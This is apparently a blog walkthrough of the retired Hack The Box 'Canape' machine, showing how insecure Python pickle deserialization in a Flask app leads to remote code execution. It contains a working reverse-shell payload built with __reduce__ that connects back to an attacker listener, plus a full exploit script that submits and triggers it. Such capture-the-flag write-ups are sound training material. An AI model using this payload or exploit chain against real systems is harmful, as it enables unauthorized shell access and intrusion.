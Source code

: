 +++ 
draft = false
date = 2018-11-18T16:30:44+01:00
title = "Exploiting Python Pickle"
slug = "Exploiting Python Pickle" 
tags = ["hackthebox","python","python pickle"]
categories = ["hackthebox","python","python pickle"]
thumbnail = "<no value>"
description = "Exploiting Python Pickle in Hack The Box Canape"
+++

Hack the Box is a known platform containing a set of security challenges.  In this instance, we will cover solving of a subsection of the retired 'Canape' box, consisting of a remote code execution by abusing insecure deserialization of Python Pickle.

After enumerating the host, we will come across a snippet of code which will be of interest to us.  Obtaining this snippet is fairly simple and I didn't feel like writing about it, so I won't spoil it for you entirely! There are two parts we are interested in this walkthrough, so lets go step by step.



```python
@app.route("/submit", methods=["GET", "POST"])
def submit():
    error = None
    success = None
    if request.method == "POST":
        try:
            char = request.form["character"]
            quote = request.form["quote"]
            if not char or not quote:
                error = True
            elif not any(c.lower() in char.lower() for c in WHITELIST):
                error = True
            else:
                # TODO - Pickle into dictionary instead, `check` is ready
                p_id = md5(char + quote).hexdigest()
                outfile = open("/tmp/" + p_id + ".p", "wb")
        outfile.write(char + quote)
        outfile.close()
            success = True
        except Exception as ex:
            error = True
    return render_template("submit.html", error=error, success=success)
```
In the snippet above we can see what occurs when we 'submit' a new Simpsons quote to the application.  The server side code will receive two POST parameters from us, one of which will need to be a valid Simpsons character, and the other can be anything we want.  The POST parameters received are the following:

+ 'character' - A valid Simpsons character (from now on Krusty) 
+ 'quote' - This can be anything we want

Below is the vulnerable snippet of code we are going to abuse.

```python
@app.route("/check", methods=["POST"])
    def check():
        path = "/tmp/" + request.form["id"] + ".p"
        data = open(path, "rb").read()
        if "p1" in data:
            item = cPickle.loads(data)
        else:
            item = data
        return "Still reviewing: " + item
```
Here we can observe that the application attempts to deserialize the contents of a file depending on an 'id' POST parameter which we submit to the application.  This file name is easily guessed, as we can see how they save files in our first code snippet:

```python
                p_id = md5(char + quote).hexdigest()
```

The ID we need to submit will need to be a hexadecimal representation of the md5(char + quote), all of which we know.

Thats all fine and dandy for now, but **why should we care?** In this '/check' functionality, we see that the application uses cPickle to deserialize any data that we retrieve from the file we give it.

```python
            item = cPickle.loads(data)
```

This looks interesting, as we control data that the function receives.

Lets lay out the objectives which we want to achieve knowing the above:

1. Submit unsanitised data using the 'quote' POST parameter
2. The application will load this data using cPickle.loads(data)
3. ???
4. Shell 

Python's pickle library helps in serializing data and storage and is vulnerable like most of the serialization libraries.

The pickle library allows arbitrary objects to declare how they should be pickled by defining a __reduce__ method, which should return either a string or a tuple describing how to reconstruct this object on unpacking.

This returned tuple should contain a class to be called, and a tuple of arguments, as such we can craft our payload by defining the following python class (where IP and PORT are our remote listener):

```python
class PickleRce(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.Popen, (('/bin/sh','-c','/usr/bin/python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\''),0))
```

We can test that our PickleRce object is constructed correctly (and in a similar way of the challenge server) by pickling it, saving it to a file and then deserialising it.  This can be done as below:
```python
    ## Ported server side deserialization
def deserializePayload(filename):
    data = open(filename, "rb").read()
    if "p1" in data:
        item = cPickle.loads(data)
    else:
        item = data

    return "Still reviewing: " + item

payload = cPickle.dumps(PickleRce())
char = payload + char
text_file = open("output.txt", "w")
text_file.write(char + quote)
text_file.close()
deserializePayload("output.txt")
```

Once we have a functioning payload, we can piece all elements together:

```python
import string
import random
import base64
import cPickle
from hashlib import md5
import requests
import sys

#Set proxies to inspect data we are sending
proxies = {
  'http': 'http://127.0.0.1:8080',
  'https': 'http://127.0.0.1:8080',
}

#Our deserialisation payload
class PickleRce(object):
    def __reduce__(self):
        import subprocess
        return (subprocess.Popen, (('/bin/sh','-c','/usr/bin/python -c \'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"IP\",PORT));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);\''),0))

#Characters submitted should be in this whitelist
WHITELIST = [
    "homer",
    "marge",
    "bart",
    "lisa",
    "maggie",
    "moe",
    "carl",
    "krusty"
]

#Submitting our payload, which will then be saved by the server to a file named 'md5(char + quote).hexdigest()'
#This function returns the name of the saved file - p_id
#POST /submit HTTP/1.1
#Host: 10.10.10.70
#character=Homer&quote=test
#
def submit():
    char = "krusty"
    if not any(c.lower() in char.lower() for c in WHITELIST):
        print 'Error'
        exit(1)
    quote = "HellaHello"
    #quote = base64.b64encode(cPickle.dumps(PickleRce()))
    payload = cPickle.dumps(PickleRce())
    char = payload + char
    p_id = md5(char + quote).hexdigest()
    text_file = open("output.txt", "w")
    text_file.write(char + quote)
    text_file.close()
    print '[+] Sending [quote] request'
    r = requests.post("http://10.10.10.70/submit",data = {'character':char,'quote':quote},proxies=proxies)    
    print 'Received response - ' , r.status_code
    print 'p_id of post - ' , p_id
    return p_id

#Make the vulnerable application deserialise our payload contained in p_id.  This will execute on the server the payload we defined in the PickleRce object
def check(p_id):
    print '[+] Sending [check] request'
    r = requests.post("http://10.10.10.70/check",data = {'id':p_id},proxies=proxies)
    print 'Received response - ' , r.status_code
    return r

p_id = submit()
check(p_id)
```
